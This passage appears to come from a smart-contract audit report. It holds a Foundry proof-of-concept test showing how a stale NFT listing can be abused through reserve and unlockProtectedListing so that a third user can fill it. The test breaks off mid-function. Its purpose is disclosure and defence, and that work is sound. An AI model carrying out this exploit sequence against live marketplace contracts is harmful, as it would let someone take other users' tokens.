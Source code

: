 Add the following test to `Listings.t.sol` to highlight this issue:
```solidity
    function test_Toad_abuseOldListing() public {
        // Get user A token
        address userA = makeAddr("userA");
        vm.deal(userA, 1 ether);
        uint256 _tokenId = 1199;
        erc721a.mint(userA, _tokenId);

        vm.startPrank(userA);
        erc721a.approve(address(listings), _tokenId);

        Listings.Listing memory listing = IListings.Listing({
            owner: payable(userA),
            created: uint40(block.timestamp),
            duration: VALID_LIQUID_DURATION,
            floorMultiple: 120
        });
        _createListing({
            _listing: IListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIdToArray(_tokenId),
                listing: listing
            })
        });

        vm.stopPrank();

        // User B calls Listings::reserve
        address userB = makeAddr("userB");
        uint256 startBalance = 10 ether;
        ICollectionToken token = locker.collectionToken(address(erc721a));
        deal(address(token), userB, startBalance);

        vm.warp(block.timestamp + 10);
        vm.startPrank(userB);
        token.approve(address(listings), startBalance);
        token.approve(address(protectedListings), startBalance);

        uint256 listingCountStart = listings.listingCount(address(erc721a));
        console.log("Listing count start", listingCountStart);

        listings.reserve({
            _collection: address(erc721a),
            _tokenId: _tokenId,
            _collateral: 0.2 ether
        });

        uint256 listingCountAfterReserve = listings.listingCount(address(erc721a));
        console.log("Listing count after reserve", listingCountAfterReserve);

        // User B later calls ProtectedListings::unlockProtectedListing with _withdraw == false
        vm.warp(block.timestamp + 1 days);
        protectedListings.unlockProtectedListing(address(erc721a), _tokenId, false);
        vm.stopPrank();

        // Other user now calls Listings::fillListings using User As listing data and gets the token
        address userC = makeAddr("userC");
        deal(address(token), userC, startBalance);
        vm.startPrank(userC);
        token.approve(address(listings), startBalance);

        uint[][] memory tokenIdsOut = new uint[][](1);
```